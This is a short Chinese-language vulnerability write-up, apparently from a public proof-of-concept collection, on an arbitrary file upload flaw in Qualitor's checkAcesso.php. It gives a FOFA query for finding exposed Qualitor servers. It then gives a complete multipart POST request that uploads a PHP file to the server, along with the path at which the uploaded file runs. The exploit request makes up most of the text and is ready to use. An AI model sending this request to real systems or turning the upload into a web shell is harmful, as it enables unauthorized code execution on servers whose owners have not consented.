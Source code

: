 # Qualitor checkAcesso.php存在任意文件上传漏洞

# 一、漏洞简介
Qualitor checkAcesso.php存在任意文件上传漏洞

# 二、影响版本
+ Qualitor 

# 三、资产测绘
+ fofa`app="Qualitor-Web"`
+ 特征

![1727509167970-d543fa15-b1c4-40b9-91b1-f7e9d6b79657.png](./img/YpPPegF7LDDl-noY/1727509167970-d543fa15-b1c4-40b9-91b1-f7e9d6b79657-467073.png)

# 四、漏洞复现
```java
POST /html/ad/adfilestorage/request/checkAcesso.php HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=---------------------------QUALITORspaceCVEspace2024space44849
 
-----------------------------QUALITORspaceCVEspace2024space44849
Content-Disposition: form-data; name="idtipo"
 
2
-----------------------------QUALITORspaceCVEspace2024space44849
Content-Disposition: form-data; name="nmfilestorage"
 
 
-----------------------------QUALITORspaceCVEspace2024space44849
Content-Disposition: form-data; name="nmdiretoriorede"
 
.
-----------------------------QUALITORspaceCVEspace2024space44849
Content-Disposition: form-data; name="nmbucket"
 
 
-----------------------------QUALITORspaceCVEspace2024space44849
Content-Disposition: form-data; name="nmaccesskey"
 
 
-----------------------------QUALITORspaceCVEspace2024space44849
Content-Disposition: form-data; name="nmkeyid"
 
 
-----------------------------QUALITORspaceCVEspace2024space44849
Content-Disposition: form-data; name="fleArquivo"; filename="info.php"
 
<?php phpinfo();unlink(__FILE__);?>
-----------------------------QUALITORspaceCVEspace2024space44849
Content-Disposition: form-data; name="cdfilestorage"
 
 
-----------------------------QUALITORspaceCVEspace2024space44849--
```

![1728639897143-e9d01fec-9808-4387-9707-69da629ae5b7.png](./img/YpPPegF7LDDl-noY/1728639897143-e9d01fec-9808-4387-9707-69da629ae5b7-159864.png)

```java
/html/ad/adfilestorage/request/info.php
```

![1728639914962-87b75123-79a6-425c-867d-eb3debfa671b.png](./img/YpPPegF7LDDl-noY/1728639914962-87b75123-79a6-425c-867d-eb3debfa671b-108101.png)



> 更新: 2024-10-22 09:36:08  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/yiooigqwix8pxlaz>